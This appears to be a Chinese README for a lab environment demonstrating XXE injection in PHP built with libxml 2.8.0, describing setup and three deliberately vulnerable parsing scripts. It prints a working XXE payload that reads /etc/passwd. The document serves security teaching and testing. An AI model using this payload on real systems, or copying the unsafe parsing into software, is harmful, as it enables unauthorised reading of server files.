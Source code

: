 # PHP环境 XML外部实体注入漏洞（XXE）

环境介绍：

- PHP 7.0.30
- libxml 2.8.0

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

使用如下命令编译并启动环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到phpinfo，搜索libxml即可看到其版本为2.8.0。

Web目录为`./www`，其中包含4个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

输出：

![](1.png)

更多高级利用方法，请自行探索。
